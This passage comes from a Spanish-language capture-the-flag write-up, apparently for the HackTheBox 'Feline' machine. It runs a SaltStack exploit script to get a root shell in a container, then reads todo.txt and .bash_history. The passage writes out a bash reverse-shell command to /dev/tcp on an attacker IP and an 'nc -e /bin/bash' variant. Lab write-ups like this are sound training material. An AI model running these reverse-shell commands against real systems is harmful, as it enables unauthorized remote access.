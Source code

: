 ```bash
–» python3 exploit.py --port 4505 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.218/4434 0>&1"'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4505) status... OFFLINE
```

Él offline quiere decir que intento hacer ping y no consiguió respuesta, así que hagamos el forwarding pero con el puerto `4506`, y ejecutemos:

![274bash_containerbash](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/feline/274bash_containerbash.png)

(Ni con `nc ip port -e /bin/bash` ni con la versión antigua de `nc` obtuve ninguna respuesta)

Lindo lindo, obtenemos una shell sobre el contenedor del puerto `4506`, hacemos tratamiento de la TTY yyyy vemos cositas interesantes:

* Tenemos un archivo `todo.txt`.
* Curioso que el archivo `.bash_history` tiene contenido.

```bash
root@2d24bf61767c:~# cat todo.txt 
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

```bash
root@2d24bf61767c:~# cat .bash_history
paswd
passwd
passwd
passswd
passwd
passwd
cd /root
ls
ls -la
rm .wget-hsts
cd .ssh/
ls
cd ..
printf '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
cat todo.txt
```